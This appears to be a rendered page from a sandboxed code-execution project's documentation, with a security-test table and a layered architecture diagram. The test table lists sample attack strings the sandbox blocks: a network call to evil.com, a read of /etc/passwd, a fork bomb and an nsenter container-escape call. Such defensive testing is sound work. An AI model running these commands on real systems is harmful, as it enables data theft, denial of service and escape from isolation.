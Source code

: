 
## Security Test Results

### Attack Scenarios Blocked

```python
# Network exfiltration attempt
"urllib.request.urlopen('http://evil.com')"  # ❌ Blocked

# Filesystem access
"open('/etc/passwd').read()"  # ❌ Blocked

# Resource exhaustion
"while True: fork()"  # ❌ Terminated

# Container escape
"import os; os.system('nsenter')"  # ❌ No privileges
```

### Defense Layers
1. **Network**: Complete isolation
2. **Filesystem**: Read-only root
3. **Syscalls**: gVisor filtering  
4. **Resources**: Hard limits
5. **Monitoring**: Anomaly detection

---

## Architecture Deep Dive

```
┌─────────────────────────────────────────────────────────┐
│                    User Interface                        │
├─────────────────────────────────────────────────────────┤
│  Web Frontend  │  CLI  │  API Gateway  │  Admin Portal  │
├─────────────────────────────────────────────────────────┤
│                    Event Bus (Pub/Sub)                   │
├─────────────────────────────────────────────────────────┤
│   Queue   │  Monitor  │  Storage  │  Security Scanner   │
├─────────────────────────────────────────────────────────┤
│              Execution Engine (Isolation Layer)          │
├─────────────────────────────────────────────────────────┤
│  Subprocess  │  Docker  │  gVisor  │  Kubernetes Jobs*  │
└─────────────────────────────────────────────────────────┘
                        * next phase
```

**Design Principles:**
- Loose coupling via events
- Pluggable implementations
- Security by default
- Observable from day one

---